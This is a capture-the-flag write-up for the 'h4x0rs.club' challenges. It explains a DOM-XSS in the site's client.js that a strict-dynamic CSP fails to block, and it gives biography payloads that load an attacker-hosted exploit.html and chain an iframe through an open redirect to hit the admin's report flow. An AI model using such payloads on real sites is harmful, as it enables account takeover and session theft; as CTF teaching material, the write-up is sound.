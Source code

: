 # h4x0rs.club part 2

Upload [exploit.html](exploit.html) and [alert.js](alert.js) to `l4w.io` for example.

Create 2 users: `blah1` && `blah2`

Root cause:

There is DOM-XSS at `client.js` when setting `title` on `badges` function. CSP contains `strict-dynamic`, so you can just simply inject `'><script>...</script>`

And on the backend side, they will send a message to `top` not `parent` . so we can inject our evil iframe in the middle.

### blah1
Set biography as the following:
```
<a href='//l4w.io/exploit.html' id=report-btn>
```

### blah2
Set biography as the following:
```
<a href='/game/?msg=<iframe name=game_server src=/game/user.php/blah1%23report></iframe>' id=report-btn></a>
```

`<iframe>` with a local src is allowed by XSS Auditor. So using open-redirect for 2 various reason.

Then report `blah2` user along with `#report`


# h4x0rs.club part 3

I really like my idea behind this one. Pwn the binary with full mitigations shipped. 

Hopefully someone can write about it :(
